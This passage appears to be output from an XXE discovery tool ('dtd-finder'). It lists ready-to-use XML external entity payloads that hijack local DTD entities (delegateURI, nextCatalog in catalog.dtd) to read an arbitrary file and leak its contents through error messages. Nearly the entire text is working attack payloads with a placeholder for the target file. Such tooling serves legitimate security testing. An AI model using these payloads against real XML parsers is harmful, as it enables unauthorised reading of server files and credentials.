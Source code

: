 ```
    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/xmlcore/catalog.dtd`

**Injectable entity:** `delegateURI`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/xmlcore/catalog.dtd">

    <!ENTITY % delegateURI 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/xmlcore/catalog.dtd`

**Injectable entity:** `nextCatalog`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/xmlcore/catalog.dtd">

    <!ENTITY % nextCatalog 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message></message>
```

